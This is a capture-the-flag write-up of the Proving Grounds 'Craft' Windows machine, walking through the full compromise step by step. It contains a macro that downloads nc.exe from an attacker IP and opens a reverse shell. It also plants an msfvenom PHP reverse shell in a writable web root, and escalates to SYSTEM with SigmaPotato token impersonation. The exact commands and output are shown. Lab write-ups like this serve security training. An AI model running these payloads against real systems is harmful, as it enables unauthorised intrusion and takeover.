







# Craft - Proving Grounds Practice

> **Kill Chain Summary**:
> Web Application Enumeration (Resume Upload Enforcing ODT) -> Malicious LibreOffice ODT Macro Crafting -> Reverse Shell Execution as `craft\thecybergeek` -> File System Enumeration (Insecure ACLs on `C:\xampp\htdocs`) -> Staged PHP Shell Lateral Movement to `craft\apache` -> Token Impersonation (`SeImpersonatePrivilege` via SigmaPotato) -> Elevated Command Execution as `NT AUTHORITY\SYSTEM`.

| Property | Value |
| :--- | :--- |
| **Target Name** | Craft |
| **Platform** | Proving Grounds Practice |
| **OS** | Windows |
| **Difficulty** | Intermediate |
| **Status** | Rooted |
| **Key Techniques** | ODT Macro Execution, XAMPP Directory Insecure ACLs, Lateral Movement, SeImpersonatePrivilege Exploitation (SigmaPotato) |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning

A full TCP port scan was performed across all 65,535 ports:

```bash
sudo nmap -p- --min-rate 1000 -T4 -Pn 192.168.187.169 -oA nmap/allports
```

```text
PORT   STATE SERVICE
80/tcp open  http
```

Only port 80 is accessible externally.

A targeted version scan was performed on port 80:

```bash
nmap -sV -p 80 192.168.187.169 -Pn
```

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
```

The web server runs Apache httpd 2.4.48 on 64-bit Windows with PHP 8.0.7.



### 1.2 Web Application Enumeration

Directory brute-forcing with Gobuster identified standard assets along with an `uploads` directory:

```bash
gobuster dir -u http://192.168.187.169 -w /usr/share/wordlists/dirb/common.txt
```

```text
assets               (Status: 301) [Size: 343] [--> http://192.168.187.169/assets/]
css                  (Status: 301) [Size: 340] [--> http://192.168.187.169/css/]
examples             (Status: 503) [Size: 404]
index.php            (Status: 200) [Size: 9635]
js                   (Status: 301) [Size: 339] [--> http://192.168.187.169/js/]
uploads              (Status: 301) [Size: 344] [--> http://192.168.187.169/uploads/]
```

Browsing the web application revealed an HR resume submission form:


Attempting to upload a standard PHP reverse shell was blocked by the application's client/server-side validation:



The upload mechanism strictly enforces the OpenDocument Text (`.odt`) file extension.

---

## 2. Initial Access

### 2.1 Malicious ODT Macro Crafting

The server processes submitted resumes, suggesting automated backend conversion or parsing using LibreOffice or OpenOffice. An ODT document configured with an auto-executing macro on document open can provide code execution.

#### Manual Configuration via LibreOffice
1. Open LibreOffice Writer and create an empty document.
2. Open the macro editor: **Tools > Macros > Organize Macros > Basic**.



3. Create a new macro under the document and define the execution payload:



```macro
Sub Main
    shell("cmd /c certutil.exe -urlcache -f http://192.168.45.226/nc.exe C:\Users\Public\nc.exe")
    shell("C:\Users\Public\nc.exe 192.168.45.226 443 -e powershell.exe")
End Sub
```

4. Bind the macro to the document open event: **Tools > Customize > Events > Open Document**.



#### Automated Payload Generation (`mmg-odt.py`)
Alternatively, an automated malicious ODT generator can be used:

```bash
python3 mmg-odt.py windows 192.168.45.226 443
```

```text
[+] Payload: windows reverse shell
[+] Creating malicious .odt file
Done.
```

### 2.2 Exploitation and Foothold

Upload the crafted `.odt` document via the web portal:



With a Netcat listener active on port 443, the backend process opens the uploaded resume, triggers the macro, and connects back:

```bash
nc -lvnp 443
```

```text
listening on [any] 443 ...
connect to [192.168.45.226] from (UNKNOWN) [192.168.187.169] 50075
whoami
craft\thecybergeek
PS C:\Program Files\LibreOffice\program>
```

A foothold is established under the context of `craft\thecybergeek`. Retrieve the user flag:

```powershell
type C:\Users\thecybergeek\Desktop\local.txt
```

```text
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

### 3.1 Local Enumeration and Insecure Directory Permissions

Enumerating user profiles in `C:\Users`:

```powershell
dir C:\Users
```

```text
Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/28/2021   3:53 AM                Administrator
d-----        2/28/2025  12:41 AM                apache
d-r---        9/27/2026   4:27 AM                Public
d-----        2/28/2025  12:41 AM                thecybergeek
```

A separate service user `apache` exists on the host. Inspecting the Access Control Lists (ACLs) of the XAMPP web root `C:\xampp\htdocs`:

```powershell
icacls C:\xampp\htdocs
```

```text
C:\xampp\htdocs CRAFT\apache:(OI)(CI)(F)
                CRAFT\apache:(I)(OI)(CI)(F)
                NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                BUILTIN\Administrators:(I)(OI)(CI)(F)
                BUILTIN\Users:(I)(OI)(CI)(RX)
                BUILTIN\Users:(I)(CI)(AD)
                BUILTIN\Users:(I)(CI)(WD)
                CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

The `BUILTIN\Users` group possesses:
- **`AD` (Create Folders / Append Data)**
- **`WD` (Create Files / Write Data)**

This permission structure allows any authenticated user to create new files directly inside the web root.

### 3.2 Lateral Movement to `craft\apache`

Generate a standalone PHP reverse shell:

```bash
msfvenom -p php/reverse_php LHOST=192.168.45.226 LPORT=4444 -f raw -o shell.php
```

Download the shell directly into `C:\xampp\htdocs`:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://192.168.45.226/shell.php' -OutFile 'C:\xampp\htdocs\shell.php'"
```

Verify that the payload is staged:

```powershell
dir C:\xampp\htdocs\shell.php
```

Start a listener on port 4444 and request the web shell:

```bash
curl http://192.168.187.169/shell.php
```

The listener catches the reverse shell executing under the web service account:

```text
listening on [any] 4444 ...
connect to [192.168.45.226] from (UNKNOWN) [192.168.187.169] 50195
whoami
craft\apache
```

### 3.3 Privilege Escalation via SeImpersonatePrivilege

Checking account privileges on `craft\apache`:

```cmd
whoami /priv
```

```text
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

`SeImpersonatePrivilege` is enabled.

> [!NOTE] Concept: Token Impersonation (SigmaPotato / PrintSpoofer)
> Service accounts with `SeImpersonatePrivilege` can coerce a privileged account (such as `NT AUTHORITY\SYSTEM`) to authenticate to a rogue named pipe or RPC endpoint, capture the token, and spawn processes in the elevated security context.

Download `SigmaPotato.exe` to the target machine:

```cmd
powershell.exe iwr "http://192.168.45.226/SigmaPotato.exe" -OutFile C:\Users\apache\SigmaPotato.exe
```

Execute commands as `NT AUTHORITY\SYSTEM` to dump the root proof flag:

```cmd
.\SigmaPotato.exe "cmd.exe /c type C:\Users\Administrator\Desktop\proof.txt > C:\Users\apache\output.txt"
```

```text
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 876 | Token: 0x812 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 984
[+] Creating Process via 'CreateProcessWithTokenW'
[+] Process Started with PID: 692
```

Read the captured proof file:

```cmd
type C:\Users\apache\output.txt
```

```text
[FLAG REDACTED]
```



---

## 4. Useful Commands Summary

```bash
# Automated ODT Malicious Macro Generation
python3 mmg-odt.py windows <KALI_IP> <KALI_PORT>

# Check Windows File Permissions with icacls
icacls C:\xampp\htdocs

# Verify Account Privileges
whoami /priv

# Exploit SeImpersonatePrivilege via SigmaPotato
.\SigmaPotato.exe "cmd.exe /c <COMMAND>"
```

---

## 5. Key Takeaways and Lessons Learned

1. **Document-Based File Upload Attacks:** When web applications restrict file uploads to document formats (`.odt`, `.docm`), consider backend processing workflows. Automated document conversion services can trigger client-side macros server-side.
2. **FileSystem ACL Audits for Lateral Movement:** Compromising a user account does not always immediately yield an administrative path. Enumerating shared paths (e.g., `C:\xampp\htdocs`) where unprivileged users hold `WD`/`AD` rights enables lateral movement to web service accounts.
3. **Service Account Privilege Exploitation:** Web service accounts frequently hold `SeImpersonatePrivilege`. Standard potato exploits (`SigmaPotato`, `PrintSpoofer`, `GodPotato`) allow immediate token impersonation to `NT AUTHORITY\SYSTEM`.

---

#proving-grounds #windows #intermediate #odt-macro #libreoffice #icacls #lateral-movement #seimpersonate #sigmapotato #privesc